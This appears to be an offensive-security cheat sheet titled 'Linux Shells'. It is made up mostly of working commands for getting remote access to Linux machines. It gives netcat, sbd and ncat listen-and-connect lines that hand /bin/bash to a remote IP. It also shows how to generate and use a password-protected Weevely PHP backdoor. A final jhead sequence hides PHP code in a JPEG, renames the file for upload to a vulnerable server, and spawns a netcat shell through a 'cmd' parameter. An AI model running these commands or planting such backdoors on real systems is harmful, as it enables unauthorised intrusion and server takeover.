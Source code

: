 # Linux Shells

## Bash

## Netcat

#### Listen

```bash
nc -lvnp 4444
```

#### Connect

```bash
nc <IP> 4444 /bin/bash
```

## Sbd

#### Listen

```bash
sbd -lvnp 4444
sbd -lvnp 4444 -k BlueTrumpet  # Use an encryption key
```

#### Connect

```bash
sbd <IP> 4444 /bin/bash
sbd <IP> 4444 -e /bin/bash -k BlueTrumpet  # Connect using encryption key
```

## Ncat

#### Listen

```bash
ncat -lvnp 4444 --ssl  # Listen with secure connection
```

#### Connect

```bash
ncat <IP> 4444 -e /bin/bash --ssl  # Connect to secure connection
```

## Weevely

[https://github.com/epinna/weevely3](https://github.com/epinna/weevely3)

```bash
weevely generate bedbug /root/wish.php  # Generate backdoor with password 'bedbug'
weevely http://<IP>/wish.php bedbug  # Uses backdoor to get a shell
```

## Web Shells

```bash
ls /usr/share/webshells  # List the different languages of webshells
```

## Jhead

[https://www.sentex.ca/\~mwandel/jhead/](https://www.sentex.ca/\~mwandel/jhead/)

```bash
mkdir jhead
Download & install jhead
# Turn nsa.jpg into a file that can run commands
jhead -purejpg nsa.jpg  # Sanitize the nsa.jpg image and clear its metadata
jhead -ce nsa.jpg  # Add our exploit code
cp nsa.jpg nsa.php.jpg  # Rename the file to have the php extension so that we get the PHP code executing
# Upload to vulnerable server
# Test exploit: http://<IP>/nsa.php.jpg?cmd=ls
# Get shell: http://<IP>/nsa.php.jpg?cmd=nc -lvnp 4444 -e /bin/bash
#From Kali: nc <IP> 4444
```
